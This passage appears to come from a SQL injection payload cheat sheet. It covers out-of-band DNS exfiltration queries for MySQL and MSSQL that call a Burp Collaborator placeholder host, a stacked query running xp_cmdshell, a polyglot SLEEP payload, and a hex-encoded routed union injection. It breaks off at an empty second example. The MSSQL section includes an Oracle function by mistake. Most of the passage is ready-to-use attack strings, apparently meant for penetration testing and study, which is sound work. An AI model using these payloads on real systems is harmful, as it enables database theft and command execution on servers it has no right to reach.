 Different databases offer various methods for creating out-of-band connections, the most common technique is the DNS exfiltration: 

* MySQL

  ```sql
  LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
  SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
  ```

* MSSQL

  ```sql
  SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
  exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
  ```


## Stacked Based Injection

Stacked Queries SQL Injection is a technique where multiple SQL statements are executed in a single query, separated by a delimiter such as a semicolon (`;`). This allows an attacker to execute additional malicious SQL commands following a legitimate query. Not all databases or application configurations support stacked queries.

```sql
1; EXEC xp_cmdshell('whoami') --
```


## Polyglot Injection

A polygot SQL injection payload is a specially crafted SQL injection attack string that can successfully execute in multiple contexts or environments without modification. This means that the payload can bypass different types of validation, parsing, or execution logic in a web application or database by being valid SQL in various scenarios.

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```


## Routed Injection

> Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. - Zenodermus Javanicus

In short, the result of the first SQL query is used to build the second SQL query. The usual format is `' union select 0xHEXVALUE --` where the HEX is the SQL injection for the second query.

**Example 1**:

`0x2720756e696f6e2073656c65637420312c3223` is the hex encoded of `' union select 1,2#`

```sql
' union select 0x2720756e696f6e2073656c65637420312c3223#
```

**Example 2**:
